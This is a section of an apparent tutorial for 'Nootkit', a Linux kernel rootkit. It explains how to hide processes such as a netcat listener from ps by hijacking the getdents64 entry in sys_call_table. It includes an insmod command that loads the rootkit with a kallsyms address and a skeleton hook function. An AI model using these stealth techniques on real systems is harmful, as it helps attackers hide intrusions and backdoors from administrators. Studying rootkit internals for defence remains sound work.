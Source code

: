 # Nootkit Section 4 - Hiding Processes

`ps`, surprise surprise, gets data for running processes from procfs. Namely, by `getdents64`ing
`/proc` and digging in to each found dir (probably only those whose names are numbers).

We could theoretically hide processes using our existing filename or inode hider, however both of
those aren't comfy to use for hiding processes...

We can make sure that hiding from `getdents64` achieves the goal by simply hiding some existing
proc dir by filename or inode number:

```sh
ps -fade | grep nc
>>> root        7020     989  0 01:21 pts/0    00:00:00 nc -l 1337
>>> root        8297     989  0 10:18 pts/0    00:00:00 grep --color=auto nc

insmod /nootkit.ko \
kallsyms_lookup_name=0x$(cat /proc/kallsyms | grep "\bkallsyms_lookup_name\b" | cut -d " " -f 1) \
hide_filenames=7020
>>> root        8297     989  0 10:18 pts/0    00:00:00 grep --color=auto nc
```

This section may have been supposed to be a no-op, but we'll do some work anyway to prevent having to
find the inode number for a process dir or just hiding a name which might also exist elsewhere -
let's implement hiding full paths. And to do that we can also add a hooking method to our existing
framework, to hook a syscall from the syscall table.

## Hiding Full File Paths

As we might recall, the syscall function for `getdents64` gets a file descriptor as an argument:

```C
SYSCALL_DEFINE3(getdents64, unsigned int, fd,
    struct linux_dirent64 __user *, dirent, unsigned int, count)
```

I happen to know we can get a full file path from a file descriptor. These two facts merge well together.

## Hooking A Syscall

Syscalls are special, as they have their own calling convention different from regular C functions in the
kernel. I'd like to mimic this argument parsing to be able to hook syscall functions.

### Hijacking A Syscall Table Entry

I happen to know the `sys_call_table` symbol contains an array of function pointers indexed by syscall numbers -
those are called when their respective syscall is invoked. Praise [pwnable.kr](https://test.serpent.zip/browser/)!

```C
// arch/x86/um/shared/sysdep/syscalls_64.h

extern syscall_handler_t *sys_call_table[];

#define EXECUTE_SYSCALL(syscall, regs) \
    (((long (*)(long, long, long, long, long, long)) \
      (*sys_call_table[syscall]))(UPT_SYSCALL_ARG1(&regs->regs), \
                      UPT_SYSCALL_ARG2(&regs->regs), \
                      UPT_SYSCALL_ARG3(&regs->regs), \
                      UPT_SYSCALL_ARG4(&regs->regs), \
                      UPT_SYSCALL_ARG5(&regs->regs), \
                      UPT_SYSCALL_ARG6(&regs->regs)))
```

Unfortunately the symbol `sys_call_table` is unexported. Fortunately we can already handle that.

### Syscall Definitions

And the Rust folks say preprocessing is dead... It's quite alive and well here in Linux Land.

I won't get into all the details, but `SYSCALL_DEFINE3` expands to (among the rest) the architechture specific
`__SYSCALL_DEFINEx`, which in our case is:

```C
// arch/x86/include/asm/syscall_wrapper.h

#define __SYSCALL_DEFINEx(x, name, ...)                                 \
    static long __se_sys##name(__MAP(x,__SC_LONG,__VA_ARGS__));         \
    static inline long __do_sys##name(__MAP(x,__SC_DECL,__VA_ARGS__));  \
    __X64_SYS_STUBx(x, name, __VA_ARGS__)                               \
    __IA32_SYS_STUBx(x, name, __VA_ARGS__)                              \
    static long __se_sys##name(__MAP(x,__SC_LONG,__VA_ARGS__))          \
    {                                                                   \
        long ret = __do_sys##name(__MAP(x,__SC_CAST,__VA_ARGS__));      \
        __MAP(x,__SC_TEST,__VA_ARGS__);                                 \
        __PROTECT(x, ret,__MAP(x,__SC_ARGS,__VA_ARGS__));               \
        return ret;                                                     \
    }                                                                   \
    static inline long __do_sys##name(__MAP(x,__SC_DECL,__VA_ARGS__))
```

The `x` is the amount of arguments to the syscall.

So in the end, the actual function declaration which is assigned to the code block below `SYSCALL_DEFINE3`
is this:

```C
static inline long __do_sys##name(__MAP(x,__SC_DECL,__VA_ARGS__))
```

And the magic of syscall calling convention parsing seems to happen within the `__MAP` macro invocation:

```C
// include/linux/syscalls.h

/*
 * __MAP - apply a macro to syscall arguments
 * __MAP(n, m, t1, a1, t2, a2, ..., tn, an) will expand to
 *    m(t1, a1), m(t2, a2), ..., m(tn, an)
 * The first argument must be equal to the amount of type/name
 * pairs given.  Note that this list of pairs (i.e. the arguments
 * of __MAP starting at the third one) is in the same format as
 * for SYSCALL_DEFINE<n>/COMPAT_SYSCALL_DEFINE<n>
 */
#define __MAP0(m,...)
#define __MAP1(m,t,a,...) m(t,a)
#define __MAP2(m,t,a,...) m(t,a), __MAP1(m,__VA_ARGS__)
#define __MAP3(m,t,a,...) m(t,a), __MAP2(m,__VA_ARGS__)
#define __MAP4(m,t,a,...) m(t,a), __MAP3(m,__VA_ARGS__)
#define __MAP5(m,t,a,...) m(t,a), __MAP4(m,__VA_ARGS__)
#define __MAP6(m,t,a,...) m(t,a), __MAP5(m,__VA_ARGS__)
#define __MAP(n,...) __MAP##n(__VA_ARGS__)

#define __SC_DECL(t, a) t a
```

However, from this piece of documentation it seems that the initially called function is not the `__do_sys##name`
part, but rather the `__x64_sys_##name` part:

```C
// arch/x86/include/asm/syscall_wrapper.h

/*
 * Instead of the generic __SYSCALL_DEFINEx() definition, the x86 version takes
 * struct pt_regs *regs as the only argument of the syscall stub(s) named as:
 * __x64_sys_*()         - 64-bit native syscall
 * __ia32_sys_*()        - 32-bit native syscall or common compat syscall
 * __ia32_compat_sys_*() - 32-bit compat syscall
 * __x64_compat_sys_*()  - 64-bit X32 compat syscall
 *
 * The registers are decoded according to the ABI:
 * 64-bit: RDI, RSI, RDX, R10, R8, R9
 * 32-bit: EBX, ECX, EDX, ESI, EDI, EBP
 *
 * The stub then passes the decoded arguments to the __se_sys_*() wrapper to
 * perform sign-extension (omitted for zero-argument syscalls).  Finally the
 * arguments are passed to the __do_sys_*() function which is the actual
 * syscall.  These wrappers are marked as inline so the compiler can optimize
 * the functions where appropriate.
 ...
```

Does this mean that by hijacking a syscall table entry, we'll actually have to decode a `struct pt_regs`
and handle both 64 and 32 bit compat ABIs?

Seems a little weird that there would be 2 functions, as `sys_call_table` members are the size of just one pointer -
I'm guessing there's another layer of indirection?

Hmm, it seems that there isn't another indirection though:

```C
// arch/x86/entry/syscall_64.c

#define __SYSCALL(nr, sym) extern long __x64_##sym(const struct pt_regs *);
#include <asm/syscalls_64.h>
#undef __SYSCALL

#define __SYSCALL(nr, sym) __x64_##sym,

asmlinkage const sys_call_ptr_t sys_call_table[] = {
#include <asm/syscalls_64.h>
};
```

The contents of `sys_call_table` seem to be actual addresses of `__x64_sys_*` functions.
Other ABIs are revealed through other `sys_call_table`s so it seems:

```C
// arch/x86/entry/syscall_32.c

#define __SYSCALL(nr, sym) extern long __ia32_##sym(const struct pt_regs *);

#include <asm/syscalls_32.h>
#undef __SYSCALL

#define __SYSCALL(nr, sym) __ia32_##sym,

__visible const sys_call_ptr_t ia32_sys_call_table[] = {
#include <asm/syscalls_32.h>
};
```

We can make sure we're correct by reading the syscall table at the index of a syscall number (like `getdents64` == 217),
and compare it to kallsyms:

```C
printk(KERN_INFO "content of sys_call_table[217] = %lx", (unsigned long)ksyms__sys_call_table[217]);
```

```sh
dmesg
>>> [49321.441325] content of sys_call_table[217] = ffffffffa61aace0

grep ffffffffa61aace0 /proc/kallsyms
>>> ffffffffa61aace0 T __x64_sys_getdents64
```

Cool! So we won't have to imitate both ABIs through a single function however that might work,
but we do have to receive a `struct pt_regs` as the argument.

## Syscall Hooking Implementation

Here's how to define a valid syscall function for the x64 syscall table, and even use it's arguments
rather neatly:

```C
#include <linux/syscalls.h>
#include <asm/syscall_wrapper.h>

static long getdents64_hook_inner(__MAP(3, __SC_LONG,
    unsigned int, fd,
    struct linux_dirent __user *, dirent,
    unsigned int, count))
{
    printk(KERN_INFO "Running getdents64 on fd %ld!", fd);
    return 0;
}

static long __x64_sys_getdents64_hook(const struct pt_regs *regs)
{
    getdents64_hook_inner(SC_X86_64_REGS_TO_ARGS(3,
        unsigned int, fd,
        struct linux_dirent __user *, dirent,
        unsigned int, count));
    return hook_original__x64_sys_getdents64(regs);
}
```

Hijacking the 217 entry in the syscall table and putting in it the address of `__x64_sys_getdents64_hook`
(when `__x64_sys_getdents64_original` is the original value in the table), we can successfully see file descriptor
numbers being printed, which I think is really cool!

After some algorithmic work and framework updates, a hook was born. See the implementation at [src/hide/readdir.c](../src/hide/readdir.c).
